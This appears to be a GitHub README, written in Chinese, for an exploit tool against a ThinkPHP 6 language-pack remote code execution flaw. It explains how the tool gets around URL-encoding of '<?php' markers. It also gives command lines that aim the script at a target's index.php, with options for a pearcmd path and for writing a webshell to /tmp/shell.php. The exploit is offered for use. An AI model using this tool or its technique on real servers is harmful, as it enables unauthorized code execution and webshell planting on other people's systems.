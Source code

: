 # thinkphp_Lang_exp
thinkphp6 Lang RCE exp


### 说明

解决GET请求时 特殊字符自动编码问题，造成找不到有效　<?php 标记 ，文件将无法解析。

如：< >编码 %3c%3e 



### 使用方法：

```bash
#默认
python3 thinkphp_Lang_exp.py -u http://xxxx/index.php

#自定义
python3 thinkphp_Lang_exp.py -u http://xxxx/index.php -m ../../pearcmd_path -p /tmp/shell.php
```


### 分析文章：

https://mp.weixin.qq.com/s/GWZ_X_jFdrq5TQW2otSL5Q
